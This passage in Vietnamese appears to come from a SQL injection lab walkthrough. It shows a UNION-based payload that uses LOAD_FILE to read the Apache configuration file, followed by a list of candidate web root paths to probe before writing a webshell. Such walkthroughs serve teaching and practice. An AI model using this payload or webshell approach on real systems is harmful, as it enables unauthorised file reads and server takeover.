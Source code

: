 ![](images/16.png)

Value để trống nghĩa là ghi tùy thích. Chúng ta sẽ ghi file webshell, trước hết hãy kiểm tra root directory của web đã, có vẻ như nó dùng apache2.

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/apache2/apache2.conf"), 3, 4-- -
```
![](images/17.png)
Check cái list này cho đến khi nó có gì đó:
```
var/www/html/
var/www/
var/www/sites/
var/www/public/
var/www/public_html/
var/www/html/default/
srv/www/
srv/www/html/
srv/www/sites/
home/www/
home/httpd/
home/$USER/public_html/
home/$USER/www/
```

Chúng ta có câu trả lời ngay đầu tiên, thư mục gốc là `var/www/html/`
